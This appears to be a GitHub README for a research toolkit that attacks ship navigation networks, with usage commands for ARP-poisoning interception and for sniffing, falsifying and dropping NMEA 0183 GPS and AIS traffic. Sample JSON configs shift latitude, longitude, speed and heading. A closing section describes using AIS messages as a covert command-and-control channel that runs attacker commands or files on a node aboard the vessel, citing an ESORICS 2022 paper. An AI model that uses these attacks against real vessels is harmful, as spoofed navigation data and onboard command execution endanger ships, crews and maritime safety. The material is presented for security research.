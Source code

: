 # NMEA_Tool_Kit

Tool kit for encoding, decoding **NMEA 0183 sentences of AIS, GPS** and to perform MITM attacks ship board navigational systems.

This scripts are tested in Ubuntu Machiene running ***Python 3.9.7*** with simulated NMEA 0183 data.

## Setup

To use the scriprs, install the modules in the ***requirements.txt***

```
pip3 install requirements.txt
```

## Attack Modes

Script contains 4 attack options, run ***-h*** for help.

```
python3 nmea_attacks.py -h
```

Before running the ***nmea_attacks.py***, need to run ***mitm_arp.py*** to start ARP poisoining to intercept traffic, Requires root privileges

```
sudo python3 mitm_arp.py -t TARGET_IP -s SOURCE_IP -i INTERFACE_NAME
```

#### S - Sniffing Attack

Sniff all NMEA 0183 data in communication between targets.

```
sudo python3 nmea_attacks.py -t TARGET_IP -s SOURCE_IP -o S
```

#### M - Modification Attack

Modify NMEA sentence data fields based on json configuration file.

```
sudo python3 nmea_attacks.py -t TARGET_IP -s SOURCE_IP -o M -c CONFIG_FILE.json
```

For sample configuration refer ***mitm_config.json***

```
"GPGGA" : {
    "attributes" : [
        {
            "key" : "hdop",
            "value" : "2",
            "incremental": false
        },
        {
            "key" : "lon",
            "value": 100,
            "incremental" : true
        }
    ]
}
```
if incremental is ```true```, then specify value as ```integer or float``` (without quotes).

#### A - Attribute Modification

To target specific data fileds across all intercepted sentences if exists (eg. lat/lon).

```
sudo python3 nmea_attacks.py -t TARGET_IP -s SOURCE_IP -o A -c CONFIG_FILE.json
```

Refer ***attr_config.json*** for example

```
{
"attributes" : 
    [
        {
            "key" : "lat",
            "value" : 100,
            "incremental": true
        },
        {
            "key" : "spd_over_grnd",
            "value" : "10",
            "incremental": false
        },
        {
            "key": "heading",
            "value" : "20",
            "incremental" : false
        }

    ]
}
```

#### D - DoS attacks

Actively drop all NMEA 0183 data in transit

```
sudo python3 nmea_attacks.py -t TARGET_IP -s SOURCE_IP -o D
```

## AIS Command & Control

Use AIS as covert communication channel between attacker machine and attacker controlled node onboard the vessel. For detailed explation please refer

```
Ahmed Amro, Vasileios Gkioulos, "From Click To Sink: Utilizing AIS for command and control in maritime cyber attacks", 27th European Symposium on Research in Computer Security (ESORICS) 2022.
```
#### NOTE: 

#### Generate Payloads

To create AIS sentences with attacker payload use ***ais_cc.py**

For file payloads

```
python3 ais_cc.py -f FILE_NAME
```

For commands

```
python3 ais_cc.py -c "CMD"
```

#### Command & Control Execution

Attack option ***-o C*** in ***nmea_attacks.py*** demonstrates attack node executing payloads in AIS senetences.

```
sudo python3 nmea_attacks.py -t TARGET_IP -s SOURCE_IP -o C
```
